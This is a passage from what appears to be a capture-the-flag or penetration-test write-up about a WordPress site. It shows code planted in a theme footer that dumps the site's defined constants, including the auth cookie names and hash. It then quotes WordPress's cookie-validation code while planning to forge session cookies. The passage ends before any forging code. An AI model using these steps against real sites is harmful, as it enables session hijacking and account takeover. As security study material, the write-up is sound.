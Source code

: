 Ah balls. Nope.

How about PHP function [`constant`](https://www.php.net/manual/en/function.constant.php)?? This function returns the value of a constant by the constant name. But what constants we want to read?

Same as getting all the defined functions, we can use PHP function [`get_defined_constants`](https://www.php.net/manual/en/function.get-defined-constants.php) to get all the defined contants:

```php
// the following code is in the bottom of `custom-footer.php`
$constants = get_defined_constants();
foreach($constants as $key => $value) {
    echo "$key = $value\n";
}
```

```php
E_ERROR = 1
E_WARNING = 2
E_PARSE = 4
E_NOTICE = 8
[...]
COOKIE_DOMAIN = 
RECOVERY_MODE_COOKIE = wordpress_rec_86a9106ae65537651a8e456835b316ab
FORCE_SSL_ADMIN = 
```

Among all the constants, there are some interesting ones:

```php
COOKIEHASH = 86a9106ae65537651a8e456835b316ab
USER_COOKIE = wordpressuser_86a9106ae65537651a8e456835b316ab
PASS_COOKIE = wordpresspass_86a9106ae65537651a8e456835b316ab
AUTH_COOKIE = wordpress_86a9106ae65537651a8e456835b316ab
SECURE_AUTH_COOKIE = wordpress_sec_86a9106ae65537651a8e456835b316ab
LOGGED_IN_COOKIE = wordpress_logged_in_86a9106ae65537651a8e456835b316ab
RECOVERY_MODE_COOKIE = wordpress_rec_86a9106ae65537651a8e456835b316ab
```

Hmm... Cookie? Maybe we can forge our own session cookies?

If we look at WordPress Core function `wp_validate_auth_cookie`, after parsing our session cookie (`AUTH_COOKIE`, `SECURE_AUTH_COOKIE`, or `LOGGED_IN_COOKIE`), it'll check our cookie's HMAC value is match to the function computed one or not:

```php
function wp_validate_auth_cookie( $cookie = '', $scheme = '' ) {
    $cookie_elements = wp_parse_auth_cookie( $cookie, $scheme );
    [...]
    $scheme     = $cookie_elements['scheme'];
    $username   = $cookie_elements['username'];
    $hmac       = $cookie_elements['hmac'];
    $token      = $cookie_elements['token'];
    $expired    = $cookie_elements['expiration'];
    $expiration = $cookie_elements['expiration'];
    [...]
    $user = get_user_by( 'login', $username );
    [...]
    $pass_frag = substr( $user->user_pass, 8, 4 );

    $key = wp_hash( $username . '|' . $pass_frag . '|' . $expiration . '|' . $token, $scheme );
    
    // If ext/hash is not present, compat.php's hash_hmac() does not support sha256.
    $algo = function_exists( 'hash' ) ? 'sha256' : 'sha1';
    $hash = hash_hmac( $algo, $username . '|' . $expiration . '|' . $token, $key );
    if ( ! hash_equals( $hash, $hmac ) ) {
        [...]
    }
}
```